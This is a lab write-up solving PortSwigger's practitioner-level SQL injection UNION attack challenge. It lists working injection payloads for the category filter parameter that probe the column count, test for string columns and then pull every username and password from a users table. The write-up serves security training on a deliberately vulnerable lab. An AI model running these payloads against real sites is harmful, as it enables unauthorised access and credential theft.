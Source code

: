 ```yaml
---
title: PortSwigger - SQLi 5 - UNION attack, retrieving data from other tables
date: 2023-03-06
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users` with columns `username` and `password` inside.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test if both contain string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT 'abc','abc'--   # works
````

We are now sure both columns contain string. We can try to extract the data in users table:

````text
<website>/filter?category=Pets' UNION SELECT username, password FROM users--
````

The usernames and passwords are displayed.
